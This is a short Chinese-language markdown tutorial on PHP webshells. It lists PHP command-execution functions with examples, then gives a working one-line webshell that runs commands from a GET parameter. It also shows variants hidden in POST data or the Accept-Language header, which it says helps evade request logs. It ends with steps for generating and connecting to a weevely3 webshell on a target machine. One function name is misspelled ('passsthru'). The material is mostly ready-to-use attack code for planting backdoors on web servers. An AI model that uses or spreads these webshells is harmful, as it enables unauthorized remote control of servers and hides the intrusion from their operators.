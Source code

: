 ```yaml
---
title: PHP webshell 漏洞
tags: 技术
---
```


# webshells

    通过PHP脚本获取webshell

# PHP函数

## system()
```php
<?php
// Return the user the script is running under
system("whoami");
?>
```

## exec()
```
<?php
// Executes but returns nothing
exec("ls -la");
?>

<?php
// Executes, returns only last line of the output
echo exec("ls -la");
?>

<?php
// Executes, returns the output in an array
exec("ls -la",$array);
print_r($array);
?>
```

## shellexec()
```php
<?php
// Executes, returns the entire output as a string
echo shell_exec("ls -la");
?>
```

## passthru()
```php
<?php
// Executes, returns output in raw format
passsthru("ls -la");
?>
```

# Backticks
```php
<?php
$output = `whoami`;
echo "<pre>$output</pre>";
?>
```

## 所有函数合集
* exec
* system
* passthru
* shell_exec
* proc_open
* show_source
* parse_ini_file
* popen

# 构造webshell

    $_GET接收get请求的cmd参数内容
    system执行该参数
```php
<?php system($_GET['cmd']);?>
```
    将该文件webshell.php放到wwwroot目录下
    用浏览器发送get请求即可获取命令返回
```browser
http://ip:port/webshell.php?cmd=whoami
```

# 隐藏webshell

    由于上述get请求会被记录,可以很容易被看到
    可以将请求加入到post中
```php
<?php system($_POST['cmd']);?>
```
    将请求加入到header中
```php
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

# 实战

> https://github.com/epinna/weevely3

    使用已经开发好的工具

1. 生成php脚本
```shell
./weevely.py generate passwd webshell.php
```

2. 脚本发送到目标机器上

3. 本地连接目标机器
```shell
./weevely.py http://ip/webshell.php passwd
weevely>  
```
